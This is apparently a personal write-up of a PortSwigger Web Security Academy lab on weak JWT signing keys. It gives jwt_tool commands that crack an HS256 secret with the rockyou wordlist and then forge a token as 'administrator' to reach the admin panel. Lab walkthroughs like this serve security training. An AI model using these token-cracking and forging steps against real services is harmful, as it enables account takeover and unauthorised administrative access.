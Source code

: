 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/jwt/lab-3-weak-signing-key/"}
---
```



---

Some signing algorithms, such as HS256 (HMAC + SHA-256), use an arbitrary, standalone string as the secret key resulting in the key can be easily guess/brute-forced

Login with the given credentials

![Pasted image 20250419211748.png](/img/user/Pasted%20image%2020250419211748.png)

Grab the JWT Token from the session key

![Pasted image 20250419211857.png](/img/user/Pasted%20image%2020250419211857.png)

We will use the `jwt_tool`  to crack the secret key using the `-C` and `-d` for the dictionary

```shell
python3 jwt_tool.py eyJraWQiOiJkMmM0YzNmMS1jMjdiLTQwMjEtYWQ5ZC0zNjc1MDM4MWMzYWIiLCJhbGciO
iJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NTA3MjI1Nywic3ViIjoid2llbmVyIn0.QhcKe
3TMFP2TGvGIItomKD3BPdhQvLicG3RNDrDGGWo -C -d /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250419212427.png](/img/user/Pasted%20image%2020250419212427.png)

The secret key is: `secret1`

Now we change the `sub` parameter to `administrator` and sign the JWT Token with the secret key with  `-S` to specify the algorithm and `-p` to specify the key

```shell
python3 jwt_tool.py eyJraWQiOiJkMmM0YzNmMS1jMjdiLTQwMjEtYWQ5ZC0zNjc1MDM4MWMzYWIiLCJhb
GciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NTA3MjI1Nywic3ViIjoid2llbmVyIn0.Qhc
Ke3TMFP2TGvGIItomKD3BPdhQvLicG3RNDrDGGWo -T -S hs256 -p secret1
```

![Pasted image 20250419213246.png](/img/user/Pasted%20image%2020250419213246.png)

Replace the session with the new generated Token and we can access `/admin`



